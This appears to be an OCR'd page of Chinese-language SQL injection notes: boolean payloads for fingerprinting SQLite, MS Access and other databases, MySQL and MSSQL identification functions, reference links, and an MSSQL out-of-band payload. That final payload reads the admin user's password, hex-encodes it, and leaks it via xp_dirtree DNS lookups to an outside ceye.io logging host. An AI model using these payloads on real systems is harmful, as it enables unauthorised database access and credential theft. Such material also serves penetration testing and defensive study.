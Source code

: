 ```
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```



### mysql

` connection_id()、last_insert_id()、row_count() `

`last_insert_id`在select语句中为0



MicrosoftSql

`@@rowcount,@@pack_received`



## mssql

```
https://blog.netspi.com/hacking-sql-server-stored-procedures-part-3-sqli-and-user-impersonation/
https://www.anquanke.com/post/id/86011
```





dnslog

```
DECLARE @host varchar(1024);SELECT @host=(SELECT master.dbo.fn_varbintohexstr(convert(varbinary,rtrim(pass))) 
FROM test.dbo.test_user where [USER] = 'admin')%2b'.cece.nk40ci.ceye.io';
EXEC('master..xp_dirtree "\'%2b@host%2b'\foobar$"');
```

